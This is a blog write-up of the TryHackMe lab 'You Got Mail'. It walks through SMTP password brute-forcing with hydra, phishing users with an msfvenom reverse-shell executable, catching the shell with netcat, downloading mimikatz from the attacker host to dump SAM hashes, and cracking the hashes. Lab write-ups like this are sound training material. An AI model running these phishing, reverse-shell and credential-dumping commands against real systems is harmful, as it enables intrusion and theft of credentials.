```yaml
---
title: "TryHackMe: You Got Mail"
author: c3l1kd
categories: [TryHackMe]
tags: [web, brute-force, hydra, cewl, phishing, post-exploitation]
render_with_liquid: false
img_path: /images/tryhackme_you_got_mail/
image:
  path: room_image.webp
---
```


**You Got Mail** started with basic enumeration to discover a list of email addresses and create a custom wordlist to find the password for one of them. We then used this account to send phishing emails to other discovered email addresses with an executable attachment to gain a shell. After obtaining a shell, we performed some post-exploitation to discover two passwords and complete the room.

[![Tryhackme Room Link](room_card.webp){: width="300" height="300" .shadow}](https://tryhackme.com/room/yougotmail){: .center }

## Initial Enumeration

### Nmap Scan

Starting with an `nmap` scan, we can see that, apart from some of the usual `Windows` services, there are also mail-related services running.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.118.67
PORT      STATE SERVICE       VERSION
25/tcp    open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
110/tcp   open  pop3          hMailServer pop3d
|_pop3-capabilities: UIDL USER TOP
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp   open  imap          hMailServer imapd
|_imap-capabilities: NAMESPACE QUOTA CHILDREN IMAP4 CAPABILITY completed OK IMAP4rev1 RIGHTS=texkA0001 ACL IDLE SORT
445/tcp   open  microsoft-ds?
587/tcp   open  smtp          hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
...
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application

Along with the target, we are also given a website at `https://brownbrick.co/`, where we find a static site.

![Brownbrick Index](brownbrick_index.webp){: width="1200" height="600"}

Checking the **Our Team** section at `https://brownbrick.co/menu.html`, we can find a couple of email addresses.

![Brownbrick Menu](brownbrick_menu.webp){: width="1200" height="600"}

## Shell as wrohit

From the emails, we can create a wordlist as follows:

```
fstamatis@brownbrick.co
pcathrine@brownbrick.co
tchikondi@brownbrick.co
lhedvig@brownbrick.co
wrohit@brownbrick.co
oaurelius@brownbrick.co
```
{: file="emails.txt" }

Using the web application, we can also create a custom wordlist for passwords using `cewl`:

```console
$ cewl --lowercase https://brownbrick.co/ > passwords.txt
```

Using `hydra` to test these passwords against the email addresses we found, we are able to discover the password for the `lhedvig@brownbrick.co` email account:

```console
$ hydra -L emails.txt -P passwords.txt 10.10.118.67 smtp -s 587 -t 16
...
[587][smtp] host: 10.10.118.67   login: lhedvig@brownbrick.co   password: bricks
...
```

Now that we have valid credentials, we can use them to send emails to other users.

First, we create a reverse shell executable to use as an attachment with `msfvenom`:

```console
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.72.22 LPORT=443 -f exe -o shell.exe
```

Then, using our email list, we can use `sendemail` to send emails with our executable as an attachment to the other users:

```console
$ for email in $(cat emails.txt); do sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "test" -m "test" -a shell.exe -s 10.10.118.67:25 -xu "lhedvig@brownbrick.co" -xp "bricks"; done
```
{: .wrap }

With this, we can see that our executable is executed by one of the users, granting us a shell as `wrohit` and we can then read the flag located at `C:\Users\wrohit\Desktop\flag.txt`.

```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.118.67] 49773
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Mail\Attachments>whoami
brick-mail\wrohit
C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
THM{[REDACTED]}
```

## Finding the Passwords

### Password of wrohit

At this point, since we are a member of the `Administrators` group, we can simply upload **Mimikatz** to the machine and use it to dump the hashes from the `SAM` registry as follows:

```
C:\ProgramData>curl http://10.11.72.22/mimikatz.exe -o mimikatz.exe
C:\ProgramData>.\mimikatz.exe "token::elevate" "lsadump::sam" "exit"
...
RID  : 000003f6 (1014)
User : wrohit
  Hash NTLM: 8458995f1d0a4b0c107fb8e23362c814
...
```

We can then use **[CrackStation](https://crackstation.net/)** to crack the hash and recover the password for the user.

![Crackstation One](crackstation_one.webp){: width="1000" height="100"}

> There are also many other ways we could have achieved the same goal. For example, we could also obtain the user's hash using the `sekurlsa::msv` module or directly retrieve the password using `sekurlsa::wdigest` instead of cracking the hash. Alternatively, in a scenario where we did not have permissions to run these modules, since we already have a shell as the `wrohit` user, we could have run **responder** on our machine and used the existing shell to force authentication to our server, capturing the hash for the user and cracking it.
{: .prompt-tip }

### Password for hMail Dashboard

Lastly, we are tasked with finding the password for the **hMailServer Administrator Dashboard**, which we can find in hashed form inside the `C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI` configuration file:

```
C:\>type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
...
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
...
```

Once again, using **[CrackStation](https://crackstation.net/)** to crack the hash, we can retrieve the password and complete the challenge.

![Crackstation Two](crackstation_two.webp){: width="1000" height="100"}

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
